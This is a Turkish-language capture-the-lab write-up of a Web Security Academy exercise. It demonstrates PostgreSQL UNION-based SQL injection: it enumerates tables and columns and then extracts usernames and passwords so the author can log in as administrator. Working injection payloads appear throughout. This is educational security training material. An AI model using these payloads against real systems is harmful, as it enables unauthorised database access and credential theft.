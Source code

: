 ![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 21.png)

Veritabanındaki tabloları getirmek için de PostgreSQL için bu şekilde bir sorgu yazmamız gerekiyor. Tekrar hatırlatmış olalım, sonundaki “-- asdf” ifadesini veritabanı sorgusundaki kalan kısmı command out yapmak için yani yorum satırı yaparak geçersiz kılmak için ekledik. “table_name” değerini de veritabanı 2. kolonu ekrana yazdırdığı için ikinci kolona verdik. 

```html
mdisec' UNION SELECT null,table_name FROM information_schema.tables -- asdf
```

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 22.png)

Burada birçok tablo ismi gelmekte olduğu için bizim için gereksiz olan tabloların gelmemesini sağlamalıyız. Bunun için SQL sorgumuzda bir WHERE ibaresi koyarak gerekli tabloları getirebiliriz. Bunun nasıl yapıldığını bilmiyorsak da internette basit bir araştırma ile bulabiliriz.

```html
mdisec' UNION SELECT null,table_name FROM information_schema.tables WHERE table_schema=current_schema() -- asdf
```

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 23.png)

Bu kısımdan sonra da “users_nmvfut” için tablo kolon isimlerini öğrenmemiz gerekiyor. 

```html
mdisec' UNION SELECT null,column_name FROM information_schema.columns WHERE table_name='users_nmvfut' -- addf
```

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 24.png)

```html
gelen sonuçları not ediyoruz:
Tablo Adı: 
users_nmvfut

Kolon Adları:
password_ugssmd
email
username_obdlzx
```

Bu bilgiler ışığında yeni SQL sorgumuzu hazırlayalım. 

```html
mdisec' UNION SELECT null, concat(username_obdlzx,':::ilker:::',password_ugssmd) FROM users_nmvfut -- adfsf
```

Bu şekilde sorgumuzu SQL Injection güvenlik açığı sayesinde web uygulamasında çalıştırdığımızda istediğimiz sonuçları artık alabiliyoruz.

![Untitled](Web Security 0x0A Web Security Academy'den Devam E 5d98a1205cb7439db45c8e0570ab118e/Untitled 25.png)

Ve son olarak administrator hesabıyla giriş yaptığımızda lab çözülmüş oluyor…
